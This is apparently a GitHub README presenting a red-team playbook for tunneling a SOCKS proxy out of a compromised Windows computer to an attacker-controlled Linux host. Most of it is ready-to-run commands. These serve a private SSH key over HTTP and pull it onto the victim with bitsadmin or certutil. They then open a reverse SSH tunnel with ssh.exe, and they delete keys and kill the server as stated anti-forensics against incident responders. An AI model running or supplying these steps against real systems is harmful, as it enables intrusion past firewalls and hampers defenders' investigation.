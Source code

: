 # win-ssh-rvsproxy
Tunneling Socks proxy through Windows.

This document presents a Red Team approach for SSH tunneling to a Socks proxy on a compromised Windows computer from an external attacker-controlled Linux host.  How the Windows computer is compromised is not covered here; the assumption is that you have a way to run commands on the victim host.

The following diagram shows the scenario.  An external attacker system (A) is running sshd to allow tunnel creation, and will also run python SimpleHTTPServer to serve an ephemeral SSH key to allow the Windows computer (B) to log in.  The Windows target (B) will execute the built-in ssh.exe command line utility and create a Socks proxy, through which the attacker (A) can access other systems protected behind the firewall, such as the web server (C).

![alt text](https://github.com/billchaison/win-ssh-rvsproxy/blob/main/01.png)

**Preparing the attack host**<br />

* On host (A) create a disposable SSH key pair.  The key will be destroyed after use in order to prevent reuse by incident responders.<br />
  `cd /root`<br />
  `ssh-keygen -t rsa -b 2048 -N "" -f /root/temp_rsa -q`<br />
  `cat /root/temp_rsa.pub >> /root/.ssh/authorized_keys && chmod 600 /root/.ssh/authorized_keys`<br />
* On host (A) launch python simple HTTP server.  This will allow the victim computer (B) to dynamically fetch the temporary private SSH key to login and start the tunnel.<br />
  `python -m SimpleHTTPServer 80`<br />

**Start the proxy server**<br />

* On the victim Windows computer (B) you will need to find a way to copy the SSH private key to the user's `%tmp%` path in this example.  Two possibilities are as follows.<br />
  `%SYSTEMROOT%\System32\bitsadmin.exe /transfer n http://192.168.1.242/temp_rsa %tmp%\temp_rsa`<br />
  `%SYSTEMROOT%\System32\certutil.exe -urlcache -split -f http://192.168.1.242/temp_rsa %tmp%\temp_rsa`<br />
* On the victim Windows computer (B) create the reverse proxy and tunnel.  Once connected to the attacker computer (A) the temporary key will be stripped from the authorized_keys file and the python web server will be terminated.  Also the private key stored on machine (B) under `%tmp%` will be deleted after the tunnel is destroyed by the attacker.  These are anti-forensics techniques to prevent incident responders from gaining access to your attacker machine (A).<br />
  `%SYSTEMROOT%\System32\OpenSSH\ssh.exe -o StrictHostKeychecking=no -i %tmp%\temp_rsa -R localhost:1080 root@192.168.1.242 "grep -v -f /root/temp_rsa.pub /root/.ssh/authorized_keys > /root/.ssh/authorized_keys.bak && mv /root/.ssh/authorized_keys.bak /root/.ssh/authorized_keys && kill $(lsof -t -i:80) && bash" & del %tmp%\temp_rsa`<br />

**Using the reverse proxy**<br />

From the attacker host (A) you can configure a browser to use the local Socks proxy on 127.0.0.1 port 1080.  You should now be able to access the protected web server (C) by going to `https://10.1.2.4`

Any other protected service behind the firewall could be accessed through Socks tunnel as long as the tools on the attacking machine (A) support Socks or you have proxychains configured to use 127.0.0.1 port 1080.
